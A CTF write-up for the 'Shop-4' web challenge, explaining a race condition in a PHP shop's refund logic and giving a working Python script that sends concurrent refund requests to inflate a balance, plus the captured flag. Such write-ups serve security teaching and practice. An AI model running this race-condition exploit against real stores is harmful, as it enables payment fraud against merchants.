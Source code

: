 # Shop-4 CTF Challenge Writeup
----
**Solved by**: 4LT3R_3GO / Blodbamsen 

----

## Description
<i>We always aim to make things bigger and better! Our shop now boasts more items than ever before and has scaled up to support way more users than previous years with a blazingly fast frontend!

If you should manage, somehow to buy the new exclusive EPT fan merchandise, you can claim 5 physical instances at the admin booth after you have bought the fan in the shop and submitted the flag on the platform!</i>

## Walkthrough  
The container loads a web page, and we are presented with a simple login panel and a link to register a user.
It is possible to register a user, and each user is given a balance of 100 EPT dollars.
There is only one thing we can afford at this moment, which is a **Race Car** for $99.99.

After testing to buy products for negative values, selling products we don't have, and tampering with other values by intercepting the traffic, we resolved to read the provided files. 

Then, after inspecting the source files, we see that the flag is embedded into the product "EPT Fan" when the database is created(db/populate.sql) and will be shown under orders after the purchase has been completed. 


```sql
INSERT IGNORE INTO items (name, description, price, note, image, rating, in_stock) VALUES
 ('Race Car', 'A blazingly fast toy race car!', 99.99, 'An imaginary toy race car almost as fast as our frontend!', '/images/race-car.png', 4.8, 1),
 ('EPT Fan', 'This fan will blow you away!', 2499.99, 'Come over to the admin booth and claim your very own EPT Fan for you and your team! __FLAG__', '/images/fan.png', 5.0, 1),
```
<i>('EPT Fan', 'This fan will blow you away!', 2499.99, 'Come over to the admin booth and claim your very own EPT Fan for you and your team! **__FLAG__**', '/images/fan.png', 5.0, 1),</i>


Looking into index.php, we can understand the server's behavior when making a request. For instance, when we ask for a refund, the server checks if the user owns the item and then updates the user's balance before removing the item from our inventory. 
There is a lack of concurrency control, meaning there is no atomicity, which means we can implement the race condition vulnerability. 

```php
if ($action === 'refund') {
    if (isset($user_items[$item_id]) && $user_items[$item_id] > 0) {
        if (updateUserbalance($user['id'], $item['price'])) {
            if (removeUserItem($user['id'], $item_id)) {
                $messages[] = [
                    "category" => "success",
                    "message" => "Item refunded successfully!"
 ];
```

So, let's buy an item and sell it multiple times until we get enough EPT dollars to buy the legendary fan.

First, we import the libraries we'll need for this.
```py
import requests
from concurrent.futures import ThreadPoolExecutor
```

Secondly, we craft the request headers based on the information we saw in the intercepted request earlier.

```py
# Set the target URL and session token
url = "https://blodbamsen-eaf2-shop-4.ept.gg/"
session_token = "d8661bef6b1f088b1e244116fb12fbfc170035e37007dafc73e6ece8904b5352"
item_id = 1 # the item we want
num_refund_requests = 10 #number of times we sell per buy
num_cycles = 10 #number of total items

# Headers for the POST request
headers = {
    "Cookie": f"session_token={session_token}",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "https://blodbamsen-df8c-shop-4.ept.gg",
    "Referer": "https://blodbamsen-df8c-shop-4.ept.gg/",
}
```
After that, we'll implement the logic that buys and refunds our orders and wrap it in a loop.

```py
#Paylods for the shop transactions
buy_data = {
    "item_id": item_id,
    "action": "buy",
}

refund_data = {
    "item_id": item_id,
    "action": "refund",
}

# Function to send a single refund request
def send_refund_request():
    try:
 response = requests.post(url, headers=headers, data=refund_data)
        if response.status_code == 200:
            print("[*] Refund request successful")
        else:
            print(f"Refund request failed with status code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"[-] Error sending refund request: {e}")

# Function to buy the item
def buy_item():
    try:
 response = requests.post(url, headers=headers, data=buy_data)
        if response.status_code == 200:
            print("[*] Item purchased successfully")
        else:
            print(f"Purchase failed with status code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"[-] Error during purchase: {e}")

# Main loop to buy and sell 
for cycle in range(num_cycles):
    print(f"\n--- Starting Cycle {cycle + 1} ---")
 buy_item()

    print("--- Starting refund requests... ---")
    with ThreadPoolExecutor(max_workers=10) as executor:
 futures = [executor.submit(send_refund_request) for _ in range(num_refund_requests)]
        for future in futures:
 future.result()

print("\n[*] Complete")
```

Start to run this, and wait... 
After a couple of seconds, refresh the web page and blam.

<i>Ding ding ding - we can now buy the EPT Fan<i>
![Richy Rich](./shop.png)

----

![Jackpot!](./flag.png)

----


### FLAG
**EPT{th0s3_f4ns_g0_brrrr}** 

╰(*°▽°*)╯